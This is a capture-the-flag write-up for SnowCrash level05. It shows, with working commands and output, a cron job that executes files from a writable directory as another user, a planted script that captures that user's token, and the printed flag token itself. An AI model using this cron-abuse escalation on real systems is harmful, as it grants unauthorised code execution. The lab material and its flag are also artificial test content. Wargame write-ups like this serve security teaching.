 # level05

when we are connected to the machine to continue we noticed `You have new mail.` ? :open_mouth:

```
┌──(kali㉿kali)-[~]
└─$ ssh -p 4242 level05@192.168.1.25
           _____                      _____               _     
          / ____|                    / ____|             | |    
         | (___  _ __   _____      _| |     _ __ __ _ ___| |__  
          \___ \| '_ \ / _ \ \ /\ / / |    | '__/ _` / __| '_ \ 
          ____) | | | | (_) \ V  V /| |____| | | (_| \__ \ | | |
         |_____/|_| |_|\___/ \_/\_/  \_____|_|  \__,_|___/_| |_|
                                                        
  Good luck & Have fun

          192.168.1.25 2a01:cb00:47e:b300:7080:dd1c:c1c:c30d 2a01:cb00:47e:b300:a00:27ff:fece:8d2a 
level05@192.168.1.25's password: 
You have new mail. 
level05@SnowCrash:~$ 
```
Then we tried to get more information but `mail` command did not work because there are no `mailutils` installed 

we searched for the directory containing the emails

```
level05@SnowCrash:~$ ls -l /var/
backups/ crash/   local/   log/     opt/     spool/   www/     
cache/   lib/     lock/    mail/    run/     tmp/     
level05@SnowCrash:~$ ls -l /var/mail/
total 4
-rw-r--r--+ 1 root mail 58 Feb 13 21:14 level05
level05@SnowCrash:~$ cat /var/mail/level05
*/2 * * * * su -c "sh /usr/sbin/openarenaserver" - flag05

```

That seems that there is a cron job, but what exactly this script do ?

```

level05@SnowCrash:~$ cat /usr/sbin/openarenaserver
#!/bin/sh

for i in /opt/openarenaserver/* ; do
        (ulimit -t 5; bash -x "$i")
        rm -f "$i"
done

```

The script seems to execute all the files that are in openarenaserver directory and then delete them, `ulimit -t` means that the following process should be terminated if it uses more CPU time than what is specified in -t. Then the file is removed.

So we will put a script in this folder and wait for `cron` to execute it 

```
level05@SnowCrash:~$ echo "/bin/bash -c '/bin/getflag > /tmp/flag05'" > /opt/openarenaserver/flag05.sh
level05@SnowCrash:~$ chmod +x /opt/openarenaserver/flag05.sh
level05@SnowCrash:~$ 
level05@SnowCrash:~$ ls -l /opt/openarenaserver/flag05.sh
-rwxrwxr-x+ 1 level05 level05 42 Feb 14 01:28 /opt/openarenaserver/flag05.sh
```

```
level05@SnowCrash:~$ ls -l /tmp/flag05
ls: cannot access /tmp/flag05: No such file or directory
level05@SnowCrash:~$ ls -l /tmp/flag05
ls: cannot access /tmp/flag05: No such file or directory
level05@SnowCrash:~$ ls -l /tmp/flag05
-rw-rw-r-- 1 flag05 flag05 58 Feb 14 01:30 /tmp/flag05
level05@SnowCrash:~$ cat /tmp/flag05
Check flag.Here is your token : viuaaale9huek52boumoomioc
```

```bash
┌──$ level05@SnowCrash:~$ su level06
└─> Password:  `viuaaale9huek52boumoomioc`
```
